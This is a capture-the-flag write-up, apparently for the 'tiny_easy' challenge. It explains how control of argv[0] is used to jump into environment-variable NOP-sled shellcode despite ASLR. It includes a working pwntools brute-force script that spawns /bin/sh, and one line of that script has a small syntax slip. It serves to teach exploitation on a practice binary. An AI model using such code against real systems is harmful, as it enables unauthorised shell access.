 

First thing like in every other pwn, we will start by logging in to the ssh server and exploring what we have to deal with:
![Exploring files](images/ssh_exploring.png)
it seems like we have two files, flag which we cant really open with our current permissions, and tiny_easy which seems to be an elf 32 bit with a corrupted section header.
![file checking](images/file_check.png)
Cool!
Lets open the binary file in ida to see whats going on.
![Ida snapshot](images/ida.png)

The whole binary have only four instructions without even a stack frame.
if we need to convert it to c/psuedo code it will look something like that:
```c
int main(int argc, char* argv) {
	int eax = argc;
	char* edx = argv;
	(*edx)();
}
```

So basicly we are gonna take argv[0] and jump into it.
and whats argv[0]? Just the path to the binary.
We can see this if we run the elf code and see where it fails.
![seg_fault](images/seg_fault.png)
We got seg fault with invalid addres **0x6d6f682f** or in ascii representations, "/hom" which is the first four letters of our binary path!.
so if we can control the name of our binary we have our first primitive which is decide where we are jumping to.

## Finding our first primitive
In order to change argv[0], You can juse use pwntools, which get binary name, and argv so u can control argv[0], or use a builtin linux command called exec:
```bash
exec -a <binary name> ./tiny_easy
```
Since we are using bash we can do something like:
```bash
exec -a `python -c "print(b'\xde\xad\xbe\xef')" ./tiny_easy`
```
And now we can jump to whatever i want!

# Where should we jump
So the hard part in this challenge is to decide where should we jump.
We have two problems:
- libc is not compiled into the binary, and the binary does not contains any gadget we can jump into
- The binary is protected by ASLR so we dont really know what whill be the address when running our exploit

We can run checksec on the binary and find out we doesnt have to deal with NX protection.
So about the first problem, we can try to jump to a shellcode that runs
```c
system("/bin/sh");
```
How can we insert our shellcode?
We can use environment variables since they stored on the stack.
And about the ASLR, we can just spray our shellcode in the stack and try to jump into a random address, we will probably jump on our shellcode after few tries.
To increase our chances to jump on our shellcode, we can put a lot of **nop** instructions, and put the shellcode at the end of the nop's
I writed a simple bash script that puts **'hello' * 1024**
in environment variables and checked with gdb in which address range 'hello' stored
![](images/hello.png)
Now we can try to put something like shellcode and jump to it.
I coded simple python code to exploit this binary:
```python
from pwn import *

context.arch = 'i386'
shellcode = shellcraft.i386.linux.sh()
shellcode = asm(shellcode)


env = {str(i): b'\x90'*1024+shellcode for i in range(100)}

addr = b"\x90\xd5\x9c\xff"

while True:
    try:
        p = process([addr], executable="./tiny_easy" env=env)
        p.wait_for_close()
    except KeyboardInterrupt:
        p.interactive()
```
And i got a shell!
I ran the exact same exploit on the ssh server and:
![](images/success.png)
